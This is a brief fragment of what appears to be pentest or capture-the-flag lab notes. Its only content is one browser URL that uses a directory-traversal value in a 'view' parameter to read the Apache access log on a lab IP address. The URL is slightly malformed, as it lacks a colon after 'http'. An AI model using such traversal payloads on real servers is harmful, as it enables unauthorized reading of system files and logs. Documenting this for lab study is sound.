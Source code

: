 # HTTP

In web browser:&#x20;

`view-source:http//10.10.10.2/?view=dog/../../../var/log/apache2/access.log`
